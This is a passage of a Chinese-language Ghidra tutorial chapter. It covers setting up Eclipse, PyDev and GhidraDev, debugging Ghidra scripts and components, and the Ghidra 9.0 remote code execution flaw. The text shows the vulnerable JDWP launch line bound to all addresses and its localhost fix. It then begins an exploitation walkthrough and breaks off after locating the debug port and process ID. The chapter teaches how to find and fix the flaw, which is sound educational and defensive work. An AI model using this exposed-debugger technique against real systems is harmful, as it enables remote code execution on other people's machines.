# 第三章：*第三章*：Ghidra 调试模式

在本章中，我们将介绍 Ghidra 调试模式。通过使用 Eclipse IDE，你将能够以专业的方式开发和调试 Ghidra 的任何功能，包括前一章中介绍的插件。

我们选择使用 Eclipse IDE（https://ghidra-sre.org/InstallationGuide.html），因为它是 Ghidra 官方支持的唯一 IDE。从技术上讲，可以使用其他 IDE，但它们并未被官方支持。Ghidra 调试模式功能在 Ghidra 9.0 版本中存在严重的安全问题，因此请使用该程序的任何较新版本来部署开发环境。在本书编写时，当前安全且稳定的版本是 9.1.2。

最后，你将学习如何利用 **远程代码执行**（**RCE**）漏洞。

在本章中，我们将涵盖以下主要内容：

+   设置 Ghidra 开发环境

+   调试 Ghidra 代码和 Ghidra 脚本

+   Ghidra 远程代码执行（RCE）漏洞

# 技术要求

包含本章所需所有代码的 GitHub 仓库可在此处找到：

[`github.com/PacktPublishing/Ghidra-Software-Reverse-Engineering-for-Beginners`](https://github.com/PacktPublishing/Ghidra-Software-Reverse-Engineering-for-Beginners)

请查看以下链接观看《代码实战》视频：[`bit.ly/37EfC5a`](https://bit.ly/37EfC5a)

# 设置 Ghidra 开发环境

本章所需安装的以下软件要求：

+   适用于 x86_64 的 Java JDK 11（可在此处下载：[`adoptopenjdk.net/releases.html?variant=openjdk11&jvmVariant=hotspot`](https://adoptopenjdk.net/releases.html?variant=openjdk11&jvmVariant=hotspot)）。

+   Java 开发者的 Eclipse IDE（任何支持 JDK 11 的版本，下载链接：[`www.eclipse.org/downloads/packages/`](https://www.eclipse.org/downloads/packages/)），因为它是 Ghidra 官方集成和支持的 IDE。

+   PyDev 6.3.1（可在此处下载：[`netix.dl.sourceforge.net/project/pydev/pydev/PyDev%206.3.1/PyDev%206.3.1.zip`](https://netix.dl.sourceforge.net/project/pydev/pydev/PyDev%206.3.1/PyDev%206.3.1.zip)）。

+   GhidraDev 插件（可在此处下载：[`github.com/NationalSecurityAgency/ghidra/tree/f33e2c129633d4de544e14bc163ea95a4b52bac5/GhidraBuild/EclipsePlugins/GhidraDev`](https://github.com/NationalSecurityAgency/ghidra/tree/f33e2c129633d4de544e14bc163ea95a4b52bac5/GhidraBuild/EclipsePlugins/GhidraDev)）。

## 软件要求概述

我们需要 **Java 开发工具包**（**JDK**）和 PyDev，因为它们分别允许我们使用 Java 和 Python 编程语言。Eclipse 是 Ghidra 开发的官方集成和支持的 IDE。

尽管 Eclipse 是唯一官方支持的 IDE，但从技术上讲，也可以将 IntelliJ 与 Ghidra 集成（[`reversing.technology/2019/11/18/ghidra-dev-pt3-dbg.html`](https://reversing.technology/2019/11/18/ghidra-dev-pt3-dbg.html)）或与任何其他 IDE 集成，以便用于高级目的并深入探讨集成的工作原理。

如果需要，你可以安装更多的依赖项。实际上，可能需要更多的依赖项来调试和/或开发特定组件。

Ghidra DevGuide 文档

如果你想安装所有必要的依赖项以创建完整的 Ghidra 开发环境，那么你可以参考文档中的**依赖项目录**，该目录对于设置环境时回答特定问题也非常有用。你可以在 https://github.com/NationalSecurityAgency/ghidra/blob/master/DevGuide.md 找到相关文档。文档中目前明确指出，你可以按任意顺序安装这些依赖项，但在此情况下，建议首先安装 Java JDK，因为 Eclipse 后续会用到它。

## 安装 Java JDK

JDK 的安装很简单。首先，你需要解压 ZIP 文件并将 `JAVA_HOME` 环境变量设置为 JDK 解压位置，然后将其 `bin` 目录的路径添加到 `PATH` 环境变量中。

你可以通过打印`JAVA_HOME`的内容和 Java 版本来检查 JDK 是否安装成功。为此，可以使用以下两个命令并检查输出：

```
C:\Users\virusito>echo %JAVA_HOME%
```

```
C:\Program Files\jdk-11.0.6+10
```

```
C:\Users\virusito>java –version
```

```
openjdk version "11.0.6" 2020-01-14
```

```
OpenJDK Runtime Environment AdoptOpenJDK (build 11.0.6+10)
```

```
OpenJDK 64-Bit Server VM AdoptOpenJDK (build 11.0.6+10, mixed mode)
```

上面的输出表示 JDK 11.0.6 已成功安装和配置。

## 安装 Eclipse IDE

一旦 Java JDK 安装完成，接下来我们可以安装**Eclipse IDE for Java Developers**（其他 Eclipse 安装可能会有问题），通过从其官方网站的**下载包**部分下载（https://www.eclipse.org/downloads/packages/）：


](img/B16207_03_001.jpg)

图 3.1 – 下载 Eclipse IDE for Java Developers

下一步是从 Eclipse 安装 PyDev。

## 安装 PyDev

安装 Eclipse 后，右键点击之前下载的 `PyDev 6.3.1` ZIP 文件，选择**全部解压...**，将其内容解压到一个文件夹中：



](img/B16207_03_002.jpg)

图 3.2 – 将 PyDev 解压到一个文件夹

将 `PyDev 6.3.1.zip` 的所有内容解压到名为 `PyDev 6.3.1` 的文件夹中：



](img/B16207_03_003.jpg)

图 3.3 – 解压 PyDev 6.3.1.zip 文件的内容

从 Eclipse 中安装，方法是点击**安装新软件...**选项，在**帮助**菜单下，然后将解压后的 PyDev 压缩包文件夹路径添加为本地仓库（如下截图中的**本地...**选项）：



](img/B16207_03_007.jpg)

图 3.4 – 将 PyDev 添加为 Eclipse 本地仓库

在这一点上卡住是非常常见的。如您所见，在以下截图中，没有按类别分组的项目。请取消勾选**按类别分组项目**选项，以避免这种情况：



](img/B16207_03_005.jpg)

图 3.5 – PyDev 插件安装程序不可见，因为安装程序按类别分组

在取消勾选**按类别分组项目**后，您将能够选择**PyDev for Eclipse**选项以进行安装：



](img/B16207_03_009.jpg)

图 3.6 – 检查是否安装 PyDev

点击**下一步 >**继续安装：



](img/B16207_03_005.jpg)

图 3.7 – 审核待安装的项目

在安装 PyDev 之前，您必须接受许可协议：


](img/B16207_03_010.jpg)

图 3.8 – 接受 PyDev 许可协议

安装 PyDev 后，您需要重新启动 Eclipse，以便软件的更改生效：



](img/B16207_03_008.jpg)

图 3.9 – 重启 Eclipse

完成此步骤后，您将获得 Eclipse 的 Python 支持。您可以通过点击**帮助** | **关于 Eclipse IDE** | **安装详情**来检查：


](img/B16207_03_009.jpg)

图 3.10 – 验证 PyDev 是否成功安装到 Eclipse 中

此 Eclipse 菜单还可以用于更新、卸载以及查看任何已安装的 Eclipse IDE 扩展的属性。

## 安装 GhidraDev

与我们安装 PyDev 类似，对于 Ghidra/Eclipse 同步，您需要安装 GhidraDev 插件，该插件可在 Ghidra 安装目录下的 `Extensions\Eclipse\GhidraDev\GhidraDev-2.1.0.zip` 找到，但这次不要解压它，而是使用**归档...**选项：



](img/B16207_03_008.jpg)

图 3.11 – 将 GhidraDev 添加为 Eclipse 本地仓库

之后，点击**添加**。在这种情况下，您无需担心**按类别分组项目**选项，因为已经有一个**Ghidra**类别，里面包含了我们感兴趣的**GhidraDev**插件。只需确保勾选**GhidraDev**选项，然后点击**下一步 >**按钮：



](img/B16207_03_012.jpg)

图 3.12 – 安装 GhidraDev 插件

之后，您可以利用这个机会查看安装详情。再次点击**下一步 >**继续安装 GhidraDev：



](img/B16207_03_013.jpg)

图 3.13 – 审核待安装的项目

接受 GhidraDev 许可协议并点击**完成**：



图 3.14 – 接受 GhidraDev 许可条款

在这种情况下，安全警告将会出现。不要担心。插件的真实性无法验证，因为它没有签名。点击**仍然安装**继续：



图 3.15 – 接受安全警告

为了使更改生效，请点击**立即重启**来重启 Eclipse IDE：



图 3.16 – 重启 Eclipse IDE

如您所知，您可以通过**帮助** | **关于 Eclipse IDE** | **安装详情**来检查是否安装了 GhidraDev。但在这种情况下，插件已经集成到 Eclipse 的菜单栏中，因此您可以通过检查菜单栏轻松发现安装是否成功：



图 3.17 – 安装 GhidraDev 插件

安装完成后，GhidraDev 插件将被安装，您还可以指定 Ghidra 安装的位置，以便将它们链接到您的开发项目中。使用**GhidraDev** | **首选项** | **Ghidra 安装…**来进行操作。

在这种情况下，我有两个 Ghidra 安装（**Ghidra_9.1.1_PUBLIC** 和 **Ghidra_9.1.1_PUBLIC - other**），其中 **Ghidra_9.1.1_PUBLIC** 被选为默认。可以通过点击**添加…**按钮来添加 Ghidra 安装，也可以通过选择表格中的安装行并点击**删除**来删除安装：



图 3.18 – 将 Ghidra 安装目录添加到 GhidraDev

在接下来的部分，我们将介绍 Ghidra 调试，它不仅使我们能够识别和修复脚本中的编程错误，还能一步步地跟踪 Ghidra 的执行。调试能力将非常有用，因为它为您打开了 Ghidra 的所有低级内部细节，以供娱乐和高级开发使用。

# 调试 Ghidra 代码和 Ghidra 脚本

在本节中，我们将探讨如何从 Eclipse 中调试 Ghidra 功能。我们将从回顾如何开发脚本以及如何调试它们开始，然后通过展示如何从源代码调试任何 Ghidra 组件来结束。

## 从 Eclipse 调试 Ghidra 脚本

现在，让我们开始调试一个 Ghidra 脚本。首先，我们需要使用默认或建议的值 `GhidraScripts` 创建一个新的 Ghidra 项目：



图 3.19 – 创建 Ghidra 脚本项目

点击`C:\Users\virusito\ghidra_scripts`后，您将看到与您的 Ghidra 安装一起包含的脚本和复选框：



图 3.20 – 配置新的 Ghidra 脚本项目

您将能够选择通过**GhidraDev** | **Preferences** | **Ghidra Installations…**之前配置的 Ghidra 安装，您还可以通过**+**按钮打开 Ghidra 安装窗口，添加或删除 Ghidra 安装目录：



图 3.21 – 将 Ghidra 安装与正在创建的 Ghidra 脚本项目关联

点击**Next >**后，您将能够通过 Jython 启用 Python 支持。您可以添加随 Ghidra 提供的 Jython 解释器，也可以通过点击**+**按钮下载您自己的解释器（下载链接：[`www.jython.org/download`](https://www.jython.org/download)）：



图 3.22 – 通过 Jython 将 Python 支持添加到 Ghidra 脚本项目

如果您想使用随 Ghidra 提供的解释器（位于以下目录：`\Ghidra\Features\Python\lib\jython-standalone-2.7.1.jar`），并且已经将 Ghidra 与项目关联，您将看到这个选项，这样可以避免手动寻找解释器。请在对话框中确认选择：



图 3.23 – 自动添加随 Ghidra 提供的 Jython 解释器

之后，您将拥有一个可用的 Jython 解释器，它足以满足一般需求。但如果您在任何时候需要链接自己的解释器，请点击**+** | **New…** | **Browse**，然后在添加自己的 Jython 解释器后点击**OK**：



图 3.24 – 添加您自己的 Jython 解释器

如果您收到以下消息，请点击**Proceed anyways**：



图 3.25 – 在 Eclipse 中将 Python 标准库添加到 PYTHONPATH

使用以下命令获取`/Lib`文件夹路径：

```
C:\Users\virusito>python -c "from distutils.sysconfig import get_python_lib; print(get_python_lib())"
```

```
c:\Python27\Lib\site-packages
```

```
C:\Users\virusito>
```

使用**New Folder**将该文件夹添加到`PYTHONPATH`中，并在确认已添加后，如下图所示，点击**Apply and Close**：



图 3.26 – 应用 PYTHONPATH 中的更改

现在，您可以选择自己的解释器或 Ghidra 中包含的另一个解释器。做出选择后点击**Finish**：



图 3.27 – 选择可用的 Jython 解释器

在开始实际调试之前，首先让我们看看我们的环境情况，并注意以下几点。

我们创建的 Ghidra 脚本项目由一些文件夹组成，这些文件夹包含了你 Ghidra 安装目录中现有的脚本（你可以通过在 Eclipse 中按下*Alt* + *Enter* 快捷键组合来检查任何这些文件夹的路径），默认还包括你的个人脚本，位于`%userprofile%\ghidra_scripts\` 文件夹中。

`JUnit 4`，JDK（`JRE 系统库`）以及`引用库`（包括 Ghidra 库）也被链接到项目中，还有整个 Ghidra 安装文件夹：



图 3.28 – Ghidra 脚本项目结构

通过右键点击项目并选择**运行方式**或**调试方式**，你会注意到，在安装 GhidraDev 插件时，分别自动创建了两种运行和调试模式。

第一个，**Ghidra** 运行模式，允许你在 GUI 环境中运行 Ghidra，而第二个，**Ghidra Headless**，则允许你在非 GUI 模式下执行 Ghidra：


图 3.29 – 项目运行模式

让我们通过将 *第二章* 中开发的 `NopScript.java` Ghidra 脚本代码粘贴到已集成 Ghidra 的 Eclipse 中来调试它，*通过 Ghidra 脚本自动化 RE 任务*。

为了创建一个新的脚本，按照以下步骤操作：

1.  转到**GhidraDev** | **新建** | **Ghidra 脚本...**：

    图 3.30 – 创建一个新的 Ghidra 脚本

1.  填写所需的字段，如下所示：

    图 3.31 – 创建 NopScript.java Ghidra 脚本

1.  让 GhidraDev 生成相应的脚本框架。通过粘贴 *第二章* 中编写的 `NopScript.java` Ghidra 脚本代码来填写脚本主体，*通过 Ghidra 脚本自动化 RE 任务*：

    图 3.32 – 用 NopScript.java 代码覆盖框架代码

1.  你可以通过在脚本的某些行上添加断点来让程序暂停。可以通过右键点击你想要暂停的行号并选择**切换断点**来设置断点。或者，双击该行号或按下*Ctrl* + *Shift* + *B* 组合键，同时保持鼠标焦点在该行上也能生效：

    图 3.33 – 在脚本的第 17 行设置断点

1.  现在，你可以通过右键点击该代码并选择**调试方式** | **Ghidra**来调试此代码：

    图 3.34 – 调试 Ghidra 脚本

1.  为了强制 Ghidra 到达设置了断点的那一行，你需要在 Ghidra 中运行插件，作用于文件的某个字节，这时它会与 Eclipse 同步，通过 GhidraDev 插件实现。由于该脚本已经将 *Ctrl* + *Alt* + *Shift* + *N* 快捷键关联起来，你可以使用它们在文件的字节上执行脚本：



图 3.35 – 在 Ghidra 中调试 NopScript.java

同样，Ghidra Python 脚本也可以通过 Eclipse 中的 PyDev 集成进行调试：



图 3.36 – 在 Ghidra 中调试 NopScript.py

同样的过程不仅适用于自定义脚本，也适用于项目中的任何其他插件。

## 从 Eclipse 调试任何 Ghidra 组件

你不仅可以调试插件，还可以调试 Ghidra 中的任何功能。例如，如果你想调试 `Graph.jar`：



图 3.37 – 将 Graph.jar 文件添加到构建路径中

然后，你可以将 JAR 文件（现在已添加到构建路径中）链接到其源代码。源代码位于同一文件夹中，命名为 `Graph-src.zip`。要链接源代码，你需要通过右键单击 JAR 文件打开 `Graph.jar` 的属性，然后在 **Java 源代码附件** 部分的 **工作区位置** 字段中附加该 ZIP 文件：



图 3.38 – 将 Graph.jar 文件链接到其源代码

之后，你将能够展开 `Graph.jar` 文件，显示其中包含的 `*.class` 文件。由于源代码已被链接，你将能够查看源代码。你还可以向源代码添加断点，在调试会话期间，当相应的代码行被执行时，断点会被触发：



图 3.39 – 调试功能图谱特性

在本节中，你学习了如何通过 GhidraDev 插件将 Eclipse 与 Ghidra 集成。我们展示了如何从 IDE 中开发和调试 Ghidra 插件，并最终如何调试你选择的 Ghidra 功能，这使你能够独立掌握 Ghidra 内部的工作原理。

# Ghidra RCE 漏洞

在本节中，我们将学习如何发现 Ghidra 9.0 中的 RCE 漏洞，它是如何工作的，如何利用它，以及如何修复它。

## 解释 Ghidra RCE 漏洞

漏洞是由于在 Windows 平台上运行 Ghidra 时位于 `launch.bat` 文件中的一行，或在 Linux 或 macOS 上运行时位于 `launch.sh` 文件中的一行。以下是涉及的那行代码：

```
-Xrunjdwp:transport=dt_socket,server=y,suspend=${SUSPEND},address=*:${DEBUG_PORT}
```

漏洞在 Ghidra 9.0.1 的第二个版本中被修复，通过替换表示允许所有地址附加调试器的星号（`*`），并将其限制为 `localhost`：

```
-Xrunjdwp:transport=dt_socket,server=y,suspend=!SUSPEND!,address=!DEBUG_ADDRESS!
```

如你所见，这个漏洞显而易见，具有讽刺意味的是，它可能正因为这个原因而被忽视。

## 利用 Ghidra RCE 漏洞

为了利用这个 RCE 漏洞，我们通过执行调试模式下的 Ghidra 9.0 来设置一个易受攻击的机器。这可以通过执行`ghidraDebug.bat`文件来完成：

```
C:\Users\virusito\Desktop\ghidra_9.0_PUBLIC\support>ghidraDebug.bata
```

```
Listening for transport dt_socket at address: 18001
```

然后，我们检索到`3828`，如以下列表所示：

```
C:\Users\virusito>tasklist /fi "IMAGENAME eq java.exe" /FO LIST | FIND "PID:"
```

```
